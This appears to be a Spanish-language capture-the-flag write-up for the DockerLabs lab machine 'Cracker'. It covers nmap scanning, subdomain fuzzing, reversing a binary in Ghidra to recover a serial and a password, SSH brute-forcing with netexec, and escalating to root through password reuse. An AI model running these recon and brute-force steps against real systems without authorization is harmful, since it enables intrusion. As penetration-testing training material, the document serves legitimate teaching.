






Máquina **Cracker** de [DockerLabs](https://dockerlabs.es).

Autor: [d1se0](https://github.com/D1se0)

Dificultad: Medio



# Reconocimiento

Comenzamos con un escaneo de `nmap`:

```css
nmap -sSVC -p- --open --min-rate 5000 -Pn -n -vvv 172.17.0.2 -oN escaneo.txt
```

```ruby
# Nmap 7.95 scan initiated Sat Dec 28 19:54:53 2024 as: nmap -sSVC -p- --open --min-rate 5000 -Pn -n -vvv -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000012s latency).
Scanned at 2024-12-28 19:54:54 -03 for 8s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 20:c2:39:55:4e:1e:5f:4e:1d:e7:f1:17:39:1a:4e:7a (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBAwXtFHDEib2kRH+di209ylvInT9F7sIAvjCHkobcS6adPqR9la6ZLBOR/QsrSa7cyE9kLzhXjZ4z6SWil46Kx4=
|   256 a5:b5:c0:f2:ce:3e:1a:e4:eb:f8:c3:dd:b5:c6:f3:b3 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIESJedIBh+pC20YsnpXCAEUcG5AxWtdBXBuDvbcXZ2Vk
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-title: P\xC3\xA1gina Web Profesional
|_http-server-header: Apache/2.4.58 (Ubuntu)
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Dec 28 19:55:02 2024 -- 1 IP address (1 host up) scanned in 8.75 seconds
```

Tenemos dos puertos abiertos en un linux ubuntu:

•`Puerto 22: OpenSSH 9.6p1`

•`Puerto 80: Apache httpd 2.4.58`

ambas versiones se encuentran actualizadas.

###### Web principal

En el pié de pagina de la web principal, podemos encontrar un dominio:

```css
cracker.dl
```

por lo que lo añadiremos al `/etc/hosts` con el siguiente formato:

```css
<IP>	cracker.dl
```

###### cracker.dl

En esta página no se encuentra nada interesante, pero podemos intentar enumerar algún subdominio con `ffuf`:

```css
ffuf -w $seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -H "Host: FUZZ.cracker.dl" -u "http://cracker.dl" -fl 163
```

```css
japan                   [Status: 200, Size: 3199, Words: 826, Lines: 92, Duration: 10ms]
Japan                   [Status: 200, Size: 3199, Words: 826, Lines: 92, Duration: 24ms]
```

ahora tenemos un subdominio, el cual lo agregaremos al `/etc/hosts` de la siguiente manera:

```css
<IP>	cracker.dl japan.cracker.dl
```

###### japan.cracker.dl

En esta página solo tendremos una cosa útil, ya que en esta se encuentra un binario llamado "PanelAdmin", el cual descargamos y al que le tendremos que hacer `ingenenieria inversa`.

###### Ingeniería inversa

Al ejecutar el binario, veremos que nos salta una ventana la cual nos pide un serial:



SI introducimos cualquier cosa no nos funciona, por lo que tendremos que intentar buscar el serial usando `ghidra`.

Luego de decompilar el binario, busco alguna función relacionada con el serial y encuentro la siguiente:



luego de revisarla un poco, encuentro el posible serial:



por lo que podemos deducir que es el siguiente:

```css
47378-10239-84236-54367-83291-78354
```

y si intentamos ponerlo veremos lo siguiente:



ya teniendo el serial, podemos ver la contraseña donde dice "`Mostrar Contraseña Secreta`" y nos da la siguiente:

```css
#P@$$w0rd!%#S€c7T
```

# Intrusión

Teniendo una contraseña, nos falta un usuario, por lo que usaremos `cewl`, `tr` y `netexec` para intentar con alguno de la web:

```css
cewl "http://cracker.dl" | tr 'A-Z' 'a-z' > users.txt
```

esto nos creará una wordlist de usuarios en minúsculas con todos las palabras de la página. Una vez tenemos la wordlist, hacemos fuerza bruta con `netexec` de la siguiente manera:

```css
netexec ssh 172.17.0.2 -u users.txt -p '#P@$$w0rd!%#S€c7T'
```

```css
SSH         172.17.0.2      22     172.17.0.2       [*] SSH-2.0-OpenSSH_9.6p1 Ubuntu-3ubuntu13.5
SSH         172.17.0.2      22     172.17.0.2       [-] cracking:#P@$$w0rd!%#S€c7T
SSH         172.17.0.2      22     172.17.0.2       [-] aprende:#P@$$w0rd!%#S€c7T
SSH         172.17.0.2      22     172.17.0.2       [+] cracker:#P@$$w0rd!%#S€c7T  Linux - Shell access!
```

como vemos hemos conseguido el acceso con el usuario `cracker` y la contraseña `#P@$$w0rd!%#S€c7T`

# Escalada de Privilegios

#### Cracker

Luego de enumerar todo el sistema veo que si ejecuto `su` y de contraseña pongo el serial que conseguimos antes, logro escalar a root:



Gracias por leer ;)